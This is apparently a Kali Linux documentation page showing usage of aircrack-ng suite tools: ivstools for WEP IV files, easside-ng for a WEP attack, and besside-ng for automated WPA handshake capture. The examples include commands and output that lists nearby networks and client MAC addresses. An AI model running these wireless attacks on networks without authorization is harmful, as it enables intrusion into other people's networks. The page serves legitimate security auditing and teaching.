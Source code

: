 ## ivstools Usage Examples

Strip out the initialization vectors of the provided .pcap capture and save them to a new file:

```
root@kali:~# ivstools --convert wep_64_ptw.cap out.ivs
Opening wep_64_ptw.cap
Creating out.ivs
Read 65282 packets.
Written 30566 IVs.
Merge all .ivs files into one file.
```

```
root@kali:~# ivstools --merge *.ivs /root/all-ivs.ivs
Creating /root/all-ivs.ivs
Opening out.ivs
916996 bytes written
Opening out2.ivs
1374748 bytes written
```

## easside-ng Usage Example

First, run buddy-ng, then launch the Easside-ng attack, specifying as many of the options as you can.

```
root@kali:~# buddy-ng
Waiting for connexion
```

```
root@kali:~# easside-ng -v de:ad:be:ef:ca:fe -m 3c:46:d8:4e:ef:aa -s 127.0.0.1 -f wlan0mon -c 6
Setting tap MTU
Sorting out wifi MAC
```

## besside-ng

Attack WPA only (`-W`), display verbose output (`-v`) and use monitor mode interface `wlan0mon`.

```
root@kali:~# besside-ng -W -v wlan0mon
[18:39:34] mac 3c:46:d8:4e:ef:aa
[18:39:34] Let's ride
[18:39:34] Appending to wpa.cap
[18:39:34] Appending to wep.cap
[18:39:34] Logging to besside.log
[18:39:35] Found AP 44:3a:cb:38:51:42 [watwutwot] chan 1 crypto WPA dbm -49
[18:39:35] Found AP 4c:8b:30:83:ed:91 [TELUS3079-2.4G] chan 1 crypto WPA dbm -71
[18:39:35] Found AP 1c:87:2c:d3:34:18 [Kuroki] chan 3 crypto WPA dbm -89
[18:39:37] Found AP 4c:8b:30:24:71:75 [SAMUEL9] chan 8 crypto WPA dbm -73
[18:39:37] Found AP 0c:51:01:e6:01:c4 [fbi-van-24] chan 11 crypto WPA dbm -46
[18:39:37] Found AP 70:f1:96:8e:5c:02 [TELUS0455-2.4G] chan 11 crypto WPA dbm -78
[18:39:38] Found client for network [Kuroki] 90:06:28:cb:0f:f3
[18:39:41] Found AP f0:f2:49:3c:ec:a8 [fbi-van-24] chan 1 crypto WPA dbm -49
[18:39:42] Found AP bc:4d:fb:2c:6d:88 [SHAW-2C6D80] chan 6 crypto WPA dbm -77
[18:39:42] Found client for network [SHAW-2C6D80] 64:5a:04:98:e1:62
[18:39:43] Found AP 10:78:5b:e9:a4:e2 [TELUS2151] chan 11 crypto WPA dbm -49
[18:39:43] Found client for network [fbi-van-24] 60:6b:bd:5a:b6:6c
```
